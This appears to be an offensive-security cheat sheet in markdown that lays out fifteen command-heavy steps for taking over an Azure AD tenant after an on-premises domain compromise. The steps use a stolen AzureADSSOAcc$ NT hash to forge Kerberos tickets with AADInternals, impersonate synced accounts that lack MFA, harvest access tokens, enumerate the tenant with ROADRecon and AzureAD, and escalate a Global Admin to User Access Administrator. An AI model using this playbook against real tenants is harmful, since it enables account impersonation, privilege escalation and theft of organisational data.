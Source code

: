 ## Pwning Azure after compromising the on-prem 
1) You need to extract the computer account NT hash used to sync on-prem with AAD (something like AzureADSSOAcc$)
2) Install and import AADInternals ps1
```
Install-Module AADInternals
Import-Module AADInternals
```
3) Verify that SSO is really enabled (DesktopSSO enable: True !)
```
Invoke-AADIntReconAsOutsider -Domain domain.local | Format-Table
```
4) Find a privileged account without MFA (service account ?)
5) Test that the account is AAD synced just by typing the email into the Azure Login Portal. If it asks for a password, you're good
6) Retreive the SID of the user account you want to impersonate into AAD using RPC against an on-prem AD
```
rpcclient -U DOMAIN/USER DC_IP
lookupnames TARGET_USER
```
7) Use AADInternals to get a Kerberos ticket and retreive an access token
```
$kerberos=NewAADIntKerberosTicket -SidString <Internal AD SID> -Hash <SSOACC$ NTLM Hash>
Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain domain.local
```
8) Then you can install and use ROADRecon to gather alot of AAD infos (if not already done)
Install ROADRecon
```
pip install roadlib/
pip install roadrecon/
```
9) Authenticate to AAD
```
roadrecon auth –access-token <Token>
```
10) Gather infos
```
roadrecon gather <options>
```
11) Explore data or export
```
roadrecon gui
roadrecon plugin -h
```
12) You can also install and use AzureAD manually to extract data with the previous access token
```
Install-Module AzureAD
Connect-AzureAD -AadAccessToken <Token>
```
13) Extract on-pren SIDs from AAD
```
Get-AzureADUser | Select UserPrincipalName, OnPremisesSecurityIdentifier
```
14) You can use other other services with AADInternals and use the cache
```
$kerberos=NewAADIntKerberosTicket -SidString <Internal AD SID> -Hash <SSOACC$ NTLM Hash>
Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain domain.local -SaveToCache
Get-AADIntAccessTokenForMSGraph -KerberosTicket $kerberos -Domain domain.local -SaveToCache
Get-AADIntAccessTokenForAzureCoreManagement -KerberosTicket $kerberos -Domain domain.local -SaveToCache
```
15) Elevate the Global Admin to Azure User Access Administrator
This will allow the global administrator to see subscriptions and assign permissions to running Azure assets if necessary
```
Grant-AADIntAzureUserAccessAdminRole
```